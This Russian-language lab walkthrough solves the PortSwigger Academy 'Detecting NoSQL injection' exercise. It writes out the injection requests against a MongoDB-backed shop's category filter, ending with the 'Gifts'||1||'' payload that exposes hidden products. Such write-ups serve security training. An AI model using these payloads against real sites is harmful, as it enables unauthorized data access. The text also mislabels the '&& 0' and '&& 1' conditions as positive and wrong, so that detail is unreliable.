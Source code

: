 По заданию известно, что содержится уязвимость в базе MongoDB

перейдем на категорию подарков и найдем данный запрос в ххтп прокси
```
GET /filter?category=Gifts
```
и отправим данный запрос в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/1.%20Detecting%20NoSQL%20injection/pics%20for%20walktrough/1.png)
добавим `'` к запросу и увидим, что нам вернулся 200 хттп респонс код, но с внутренней ошибкой внутри сервиса 
```
GET /filter?category=Gifts'
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/1.%20Detecting%20NoSQL%20injection/pics%20for%20walktrough/2.png)
попробуем ввести `GET /filter?category=Gifts'+'` но в урл кодировке увидим, что запрос выполнился без ошибок
```
GET /filter?category=Gifts'%2b' 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/1.%20Detecting%20NoSQL%20injection/pics%20for%20walktrough/3.png)

Введем положительное условие
```
Gifts' && 0 && 'x -> GET /filter?category=Gifts'+%26%26+0+%26%26+'x
```
и увидим, что ничего не вывело

а вот если введем неверное условие, увидим
`Gifts' && 1 && 'x`

или же в url
```
GET /filter?category=Gifts'+%26%26+1+%26%26+'x 
```

Введем
```
GET /filter?category=Gifts'||1||'
```
и теперь мы можем видеть скрытые продукты 
и получим сообщение об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/12.%20NoSQL%20injection/1.%20Detecting%20NoSQL%20injection/pics%20for%20walktrough/4.png)
